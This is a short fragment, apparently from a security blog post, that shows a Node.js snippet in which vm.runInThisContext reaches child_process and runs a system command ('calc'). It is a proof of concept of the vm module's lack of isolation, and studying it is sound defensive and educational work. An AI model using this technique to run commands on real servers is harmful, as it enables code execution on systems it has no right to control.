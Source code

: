 [![](assets/1706959000-39ce6adc2473215b8e1781e48d234641.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140416-bc53c496-bc10-1.png)

```bash
const vm = require('vm');

sx = {
    'name': 'chiling',
    'age': 18
}

context = vm.createContext(sx)
const result = vm.runInThisContext(`process.mainModule.require('child_process').exec('calc')`, context);
console.log(result)
```
